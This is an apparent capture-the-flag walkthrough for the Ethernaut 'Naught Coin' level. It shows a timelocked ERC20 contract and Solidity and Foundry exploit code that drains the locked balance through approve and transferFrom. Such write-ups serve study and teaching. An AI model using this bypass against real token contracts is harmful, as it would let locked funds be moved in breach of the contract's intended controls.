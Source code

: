 ```yaml
---
title: "Naught Coin"
date: "2024-02-23"
lastmod: "2024-02-23T15:25:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
weight: 16
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/15"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "5013cfef-45d6-46e6-93a6-feaac127ac33"
  created_time: "2024-02-23T14:37:00.000Z"
  last_edited_time: "2024-02-23T15:25:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-23"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 16
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/15"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text: []
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Naught Coin"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught Coin"
          href: null
  url: "https://www.notion.so/Naught-Coin-5013cfef45d646e693a6feaac127ac33"
  public_url: null
UPDATE_TIME: "2024-02-23T22:49:38.509Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


NaughtCoin is an
 ERC20 token and you're already holding all of them. The catch is that 
you'll only be able to transfer them after a 10 year lockout period. Can
 you figure out how to get them out to another address so that you can 
transfer them freely? Complete this level by getting your token balance 
to 0.


Things that might help

- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,NaughtCoin} from "../src/15.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address publicKey = vm.envAddress("PUBLIC_KEY");
        address addr = vm.envAddress("INSTANCE_15");

        vm.startBroadcast(deployerPrivateKey);

        Attacker attacker = new Attacker();
        NaughtCoin nc = NaughtCoin(addr);

        nc.approve(address(attacker), nc.balanceOf(publicKey));

        attacker.attack(address(nc));

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface NaughtCoin {
  function transfer(address _to, uint256 _value) external returns(bool);
  function approve(address spender, uint256 value) external returns (bool);
  function transferFrom(address from, address to, uint256 value) external returns (bool);
  function balanceOf(address account) external view returns (uint256);
}

contract Attacker {
  function attack(address _addr) public {
    NaughtCoin nc = NaughtCoin(_addr);
    nc.transferFrom(msg.sender, address(this), nc.balanceOf(msg.sender));
  }
}
```


When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might  scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

